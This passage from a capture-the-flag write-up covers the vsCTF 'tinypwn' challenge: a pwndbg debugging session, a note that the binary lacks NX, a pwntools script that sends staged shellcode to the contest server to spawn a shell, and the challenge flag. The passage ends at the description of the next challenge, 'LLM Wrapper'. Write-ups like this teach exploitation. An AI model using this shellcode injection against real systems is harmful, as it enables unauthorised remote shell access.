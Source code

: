 ```bash
$ gdb tinypwn -q
pwndbg: loaded 147 pwndbg commands and 46 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
"/home/brwook/ctf/29_vsCTF/tinypwn/tinypwn": not in executable format: file format not recognized
------- tip of the day (disable with set show-tips off) -------
Use the context (or ctx) command to display the context once again. You can reconfigure the context layout with set context-section <sections> or forward the output to a file/tty via set context-output <file>. See also config context to configure it further!
pwndbg> r
Starting program:  
No executable file specified.
Use the "file" or "exec-file" command.
```

the binary is odd and it has not correct format of elf maybe. But, you can attach the process of `tinypwn` when the process is waiting input. Through this, you can figure it out that the binary has not NX bit and your input gonna be executed!

```py
from pwn import *

context(arch='i386', os='linux')
code1 = asm('''
    xor al, al
    add al, 3
    add dx, 0x1000
    int 0x80
''')

code2 = asm(shellcraft.sh())

p = remote('vsc.tf', 3026)
p.send(code1)
p.send(b'A' * 0xB + code2)
p.interactive()
```

`vsctf{ELF_g0lf_sh3llc0d3_g0lf_4ll_th15_g0lf1ng_hurt5_my_h34d}`


## **LLM Wrapper**

---

### **[0x00] Descriptions**

> Wow I found this cool LLM wrapper for my new API! It's still in development but they're all the hype now so I'm sure that's fine.
>
> ZeroDayTea
>
> 13 solves
 